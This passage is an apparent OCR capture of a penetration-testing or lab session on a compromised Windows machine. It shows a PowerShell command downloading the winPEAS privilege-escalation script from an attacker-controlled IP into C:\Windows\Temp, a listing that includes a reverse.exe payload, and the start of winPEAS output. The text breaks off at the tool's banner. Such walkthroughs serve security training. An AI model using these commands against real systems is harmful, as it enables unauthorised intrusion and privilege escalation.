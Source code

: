 C:\Program Files (x86)>cd C:\Windows\Temp
cd C:\Windows\Temp

C:\Windows\Temp>powershell -c "Invoke-WebRequest -Uri 'http://10.11.59.68:80/winPEAS.bat' -Outfile 'C:\Windows\Temp\winPEAS.bat'"
powershell -c "Invoke-WebRequest -Uri 'http://10.11.59.68:80/winPEAS.bat' -Outfile 'C:\Windows\Temp\winPEAS.bat'"

C:\Windows\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 Directory of C:\Windows\Temp

02/10/2022  02:41 PM    <DIR>          .
02/10/2022  02:41 PM    <DIR>          ..
08/06/2019  01:13 PM             8,795 Amazon_SSM_Agent_20190806141239.log
08/06/2019  01:13 PM           181,468 Amazon_SSM_Agent_20190806141239_000_AmazonSSMAgentMSI.log
08/06/2019  01:13 PM             1,206 cleanup.txt
08/06/2019  01:13 PM               421 cmdout
08/06/2019  01:11 PM                 0 DMI2EBC.tmp
08/03/2019  09:43 AM                 0 DMI4D21.tmp
08/06/2019  01:12 PM             8,743 EC2ConfigService_20190806141221.log
08/06/2019  01:12 PM           292,438 EC2ConfigService_20190806141221_000_WiXEC2ConfigSetup_64.log
02/10/2022  02:41 PM    <DIR>          Microsoft
02/10/2022  02:25 PM            73,802 reverse.exe
08/06/2019  01:13 PM                21 stage1-complete.txt
08/06/2019  01:13 PM            28,495 stage1.txt
05/12/2019  08:03 PM           113,328 svcexec.exe
08/06/2019  01:13 PM                67 tmp.dat
02/10/2022  02:41 PM            35,762 winPEAS.bat
              14 File(s)        744,546 bytes
               3 Dir(s)  39,124,873,216 bytes free

# then I ran it to see what odd services might be running and exploitable
C:\Windows\Temp>.\winPEAS.bat
.\winPEAS.bat

            ((,.,/((((((((((((((((((((/,  */
     ,/*,..*(((((((((((((((((((((((((((((((((,                                                                       
   ,*/((((((((((((((((((/,  .*//((//**, .*((((((*                                                                    
   ((((((((((((((((* *****,,,/########## .(* ,((((((                                                                 
   (((((((((((/* ******************/####### .(. ((((((                                                               
   ((((((..******************/@@@@@/***/###### /((((((                                                               
   ,,..**********************@@@@@@@@@@(***,#### ../(((((                                                            
   , ,**********************#@@@@@#@@@@*********##((/ /((((                                                          
   ..(((##########*********/#@@@@@@@@@/*************,,..((((                                                         
   .(((################(/******/@@@@@#****************.. /((                                                         
   .((########################(/************************..*(                                                         
   .((#############################(/********************.,(                                                         
   .((##################################(/***************..(                                                         
   .((######################################(************..(                                                         
   .((######(,.***.,(###################(..***(/*********..(                                                         
   .((######*(#####((##################((######/(********..(                                                         
   .((##################(/**********(################(**...(                                                         
   .(((####################/*******(###################.((((                                                         
   .(((((############################################/  /((                                                          
   ..(((((#########################################(..(((((.                                                         
   ....(((((#####################################( .((((((.                                                          
   ......(((((#################################( .(((((((.                                                           
   (((((((((. ,(############################(../(((((((((.                                                           
       (((((((((/,  ,####################(/..((((((((((.                                                             
             (((((((((/,.  ,*//////*,. ./(((((((((((.                                                                